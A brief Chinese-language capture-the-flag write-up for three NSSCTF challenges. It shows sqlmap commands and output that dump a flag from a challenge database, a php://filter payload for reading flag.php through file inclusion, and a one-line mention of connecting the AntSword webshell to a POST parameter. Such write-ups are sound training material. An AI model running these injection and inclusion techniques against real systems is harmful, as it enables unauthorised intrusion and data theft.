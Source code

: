 ### easy\_sql

打开页面后 title 存在提示 参数是 `wllm` 。

```bash
$ python sqlmap.py  -u http://node2.anna.nssctf.cn:28574/?wllm=1 --dbs
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] test
[*] test_db
$ python sqlmap.py  -u http://node2.anna.nssctf.cn:28574/?wllm=1 -D test_db --tables
Database: test_db
[2 tables]
+---------+
| test_tb |
| users   |
+---------+
$ python sqlmap.py  -u http://node2.anna.nssctf.cn:28574/?wllm=1 -D test_db -T test_tb --columns
Database: test_db
Table: test_tb
[2 columns]
+--------+-------------+
| Column | Type        |
+--------+-------------+
| flag   | varchar(50) |
| id     | int(11)     |
+--------+-------------+
$ python sqlmap.py  -u http://node2.anna.nssctf.cn:28574/?wllm=1 -D test_db -T test_tb -C flag --dump
Database: test_db
Table: test_tb
[1 entry]
+----------------------------------------------+
| flag                                         |
+----------------------------------------------+
| NSSCTF{66c831a1-4505-4bcd-8b89-b9620b715aeb} |
+----------------------------------------------+
```

### include

Payload 如下

```
file=php://filter/convert.base64-encode/resource=flag.php
```

### caidao

蚁剑利用 `$_POST['wllm']` 一把梭。
